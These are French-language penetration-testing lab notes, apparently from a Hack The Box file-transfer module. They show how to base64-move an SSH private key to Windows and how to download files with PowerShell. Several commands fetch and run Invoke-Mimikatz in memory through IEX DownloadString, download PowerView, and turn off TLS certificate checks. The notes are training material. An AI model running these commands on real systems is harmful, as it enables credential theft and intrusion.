

# Le transfert de fichier 

## Powershell base64 décode encode 

Check de la clé ssh en hash md5

>freeeee@htb[/htb]$ md5sum id_rsa
>
>4e301756a07ded0a2dd6953abf015278  id_rsa

Encodage de la clé en base64

>freeeee@htb[/htb]$ cat id_rsa |base64 -w 0;echo
>
>LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K...

Nous pouvons copier ce contenu et le coller dans une borne Windows PowerShell et utiliser certaines fonctions PowerShell pour le décoder.

>PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K...

Enfin, nous pouvons confirmer si le fichier a été transféré avec succès à l'aide du Get-FileHash cmdlet, qui fait la même chose que md5sum fait.

```powershell
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                            Path
---------       ----                            ----
MD5      4E301756A07DED0A2DD6953ABF015278        C:\Users\Public\id_rsa
```

## Téléchargements Web PowerShell

PowerShell propose de nombreuses options de transfert de fichiers. Dans n'importe quelle version de PowerShell, le System.Net.WebClient la classe peut être utilisée pour télécharger un fichier sur HTTP, HTTPS ou FTP. Les éléments suivants table décrit les méthodes WebClient pour télécharger des données à partir d'une ressource:


| Method |	Description |
| --- | ---|
|OpenRead |	Renvoie les données d'une ressource en tant que Flux.
OpenReadAsync | 	Renvoie les données d'une ressource sans bloquer le thread appelant.
DownloadData |Télécharge les données d'une ressource et renvoie un tableau d'octets.
DownloadDataAsync |		Télécharge les données d'une ressource et renvoie un tableau d'octets sans bloquer le thread appelant.
DownloadFile |		Télécharge les données d'une ressource vers un fichier local.
DownloadFileAsync |	Télécharge les données d'une ressource vers un fichier local sans bloquer le thread appelant.
DownloadString | Télécharge une chaîne à partir d'une ressource et renvoie une chaîne.
DownloadStringAsync | 	Télécharge une chaîne à partir d'une ressource sans bloquer le fil appelant.

### Méthode PowerShell DownloadFile

Nous pouvons spécifier le nom de la classe Net.WebClient et la méthode DownloadFile avec les paramètres correspondant à l'URL du fichier cible à télécharger et le nom du fichier de sortie.

````powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
````

### PowerShell DownloadString - Méthode sans fichier

Comme nous l'avons vu précédemment, les attaques sans fichier fonctionnent en utilisant certaines fonctions du système d'exploitation pour télécharger la charge utile et l'exécuter directement. PowerShell peut également être utilisé pour effectuer des attaques sans fichier. Au lieu de télécharger un script PowerShell sur disque, nous pouvons l'exécuter directement en mémoire à l'aide du Invoke-Expression cmdlet ou l'alias IEX.

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
IEX accepte également les entrées de pipeline.

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### PowerShell Invoke-WebRequest

À partir de PowerShell 3.0, le Invoke-WebRequest cmdlet est également disponible, mais il est nettement plus lent à télécharger des fichiers. Vous pouvez utiliser les alias iwr, curl, et wget au lieu de la Invoke-WebRequest nom complet.

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

### Erreurs courantes avec PowerShell

Il peut y avoir des cas où la configuration de la première lancement d'Internet Explorer n'est pas terminée, ce qui empêche le téléchargement.



Cela peut être contourné à l'aide du paramètre -UseBasicParsing.

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Une autre erreur dans les téléchargements PowerShell est liée au canal sécurisé SSL / TLS si le certificat n'est pas fiable. Nous pouvons contourner cette erreur avec la commande suivante:

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## Téléchargements SMB

